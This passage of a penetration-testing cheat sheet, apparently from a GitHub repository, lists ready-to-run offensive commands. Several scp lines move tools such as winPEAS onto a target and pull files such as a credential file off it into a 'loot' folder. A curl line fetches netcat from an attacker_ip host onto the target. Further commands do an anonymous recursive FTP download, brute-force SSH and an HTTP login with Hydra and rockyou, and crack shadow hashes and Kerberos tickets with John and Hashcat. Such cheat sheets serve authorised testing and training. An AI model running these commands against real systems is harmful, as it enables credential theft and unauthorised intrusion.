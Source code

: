 Transfer from target to your attacker machine
```
scp -i id_rsa root@10.10.10.100:/home/root/credential.pgp ~/loot/target_machine/
```

### Windows Target
Transfer from your attacker machine to the target
```
scp winPEAS.exe admin@10.10.10.100:C:\\ProgramData\\winp.exe
```
Transfer from target to your attacker machine
```
scp admin@10.10.10.100:C:/ProgramData/file.txt /tmp/file.txt
```

## curl
```
# First make sure you have python server running on your attacker machine
# On the target terminal
curl http://attacker_ip/nc -o /tmp/nc

# You should now have nc on the /tmp folder
```

## FTP Recursive Download - wget
If for some reason when you try to access RTP, it's freezing, you can execute this command to wget all the files immediately to your machine without having to first login and download manually.
```
wget --recursive --ftp-user=anonymous --ftp-password=any --no-passive-ftp ftp://target_IP
```


# Cracking and Bruteforce

## Hydra
```
# SSH 
hydra -l testuser -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 10.10.10.10 ssh

# Base64 encode http post bruteforce
hydra -I -f -L usernames.txt -P passwords.txt 'http-post-form://10.10.10.10:8080/service/session:username=^USER64^&password=^PASS64^:C=/:F=403'
```

## John
```
unshadow passwd shadow > crack_me.txt
john --wordlist=/usr/share/wordlists/rockyou.txt crack_me.txt
```

## Hashcat
```
# Crack kerberos ticket
hashcat -m 13100 kerb_crack.txt /usr/share/wordlists/rockyou.txt
```
